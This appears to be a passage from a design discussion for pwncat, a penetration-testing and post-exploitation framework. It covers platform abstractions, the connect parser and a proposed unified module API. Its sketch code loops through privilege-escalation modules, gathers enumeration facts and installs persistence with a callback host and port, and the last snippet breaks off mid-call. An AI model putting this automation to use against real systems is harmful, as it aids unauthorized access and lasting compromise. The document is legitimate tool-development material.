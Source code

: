 ```python
    """ Implement the above abstract methods """ 
    
class Windows(Platform):
    """ Implement the above abstract methods """
```

With both channels and platforms implemented, the initialization would
look something like this:

```python

# Initialize scripting engine
script_parser = pwncat.commands.Parser()

# Run the connect command
try:
    script_parser.dispatch_line(shlex.join(["connect", *remaining_args]), command="pwncat")
except:
    # Connection failed
    exit(1)

# The connect command initialized the `pwncat.victim` object,
# but it doesn't have a parser yet. We already initialized one
# so store it there.
pwncat.victim.parser = script_parser
```

## Module access

Modules are currently segmented by type. There are persistence, privilege
escalation, and enumeration modules. These modules are all implemented 
independently and accessed through separate commands. 

This is helpful for segmenting the different parts of pwncat into different
base goals, but hinders the ease of development for new modules. This
interface does not provide a simple way for complex modules to accept
parameters and forces the developer to remember the interface for all of 
these different command frameworks.

I was initially hesitant to adopt the Metasploit Framework way of doing
things where every action was a module, because I wanted to keep things
simpler, but as the framework grows and more complex modules are
implemented, I think this is needed, but needs to be implemented in such
a way that the modules can be interfaced with programmatically as well.

I'm thinking of something like this from a programmatic standpoint:

```python
# Attempt all privileg escalation modules
for module in pwncat.modules.match(r"escalate/.*"):
    try:
        module.run(target=user)
        break
    except PrivescError:
        pass

# Collect facts from all enumeration modules
facts = []
for module in pwncat.modules.match(r"enumerate/.*"):
    facts.extend(module.run())

# Install persistence
pwncat.modules.match(r"persist/.*").run(
    user = "root",
    lhost = "10.0.0.1",
    lport = "4444",
```